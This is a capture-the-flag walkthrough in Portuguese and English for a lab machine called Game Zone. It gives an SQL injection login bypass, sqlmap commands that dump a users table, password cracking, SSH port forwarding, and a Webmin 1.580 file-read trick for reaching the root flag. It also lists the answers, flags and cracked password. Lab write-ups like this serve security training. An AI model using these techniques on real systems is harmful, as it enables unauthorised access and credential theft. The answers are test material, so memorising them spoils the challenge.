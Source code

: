 # gamezone

# TASK 1 - Deploy the vulnerable machine

What is the name of the large cartoon avatar holding a sniper on the forum?
R: Agent 47

nmap -sC -sV 10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/ff14a15b-5083-4c7b-8477-422c389aa6c0)

# TASK 2 -  Obtain access via SQLi

Log in: ' or 1=1 -- -
Password:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/9b1ab06e-9f2f-4498-b9aa-2e0fca682d61)

When you've logged in, what page do you get redirected to?
R: portal.php

![image](https://github.com/yanfernandess/gamezone/assets/100174458/86b0560e-c2a6-4d29-b7dc-dd067d5c1232)

# TASK 3 - Using SQLMap

Salvar o código fonte que aparece no BURP SUITE da página logo após inserir alguma informação no input em um arquivo txt, vamos usar isso logo em seguida.

sqlmap -r request.txt --current-db
![image](https://github.com/yanfernandess/gamezone/assets/100174458/e0590bd6-1677-4274-a095-f79b125ed9f7)

Descobrimos que temos um banco de dados chamado 'db'

sqlmap -r request.txt -D db --tables

![image](https://github.com/yanfernandess/gamezone/assets/100174458/10fe000e-346e-499d-96f2-3b2ab7c228ec)

Temos duas tabelas dentro do banco de dados, vamos explorar elas.

sqlmap -r request.txt -D db users --dump

In the users table, what is the hashed password?
R: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

What was the username associated with the hashed password?
R: agent47

What was the other table name?
R: post

# TASK 4 - Cracking a password with JohnTheRipper

Ele esta pedindo para descriptografar com o JohnTheRipper mas utilizei uma ferramenta online para fazer isso, segue o link abaixo:

https://www.dcode.fr/

![image](https://github.com/yanfernandess/gamezone/assets/100174458/27c46287-82b9-4cde-96aa-4c7ec7ee35f5)

Conseguimos acesso SSH com o login e a senha que acabamos de descriptografar.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/09cf8537-da10-4d64-9c79-20b52316b187)

E conseguimos a primeira flag.

What is the de-hashed password?
R: videogamer124


Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
R: 649ac17b1480ac13ef1e4fa579dac95c

# TASK 5 - Exposing services with reverse SSH tunnels

ssh -L 10000:localhost:10000 agent47@10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/338a6a7d-f737-4dfe-8f56-bcf1331c7e52)

Fiz o Login com a credencial descoberta e descobri que se trata de um webmin da versão 1.580.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/45a7648c-0ecd-4bcb-bdf3-6277cf8ea382)

How many TCP sockets are running?
R: 5

What is the name of the exposed CMS?
R: Webmin

What is the CMS version?
R: 1.580

# TASK 6 - Privilege Escalation with Metasploit

Se você estiver seguindo o guia da sala, neste ponto você poderá iniciar o Meterpreter e usar um módulo dentro da estrutura para obter um shell root. No entanto, se você ler como o exploit funciona, é muito simples apenas ler os arquivos no console do webmin. Para testar isso, vamos dar uma olhada no arquivo passwd:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/91e33563-b26c-474a-a2d9-da1811989c49)

Como você pode ver, tudo o que precisei fazer foi adicionar /file/show.cgi e, em seguida, o caminho e o nome do arquivo que desejo ver.

Usando esta técnica simples, podemos pegar o sinalizador root:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/2af2fb5d-4620-476c-b2f7-84233d9ea3ea)

What is the root flag?
R: a4b945830144bdd71908d12d902adeee
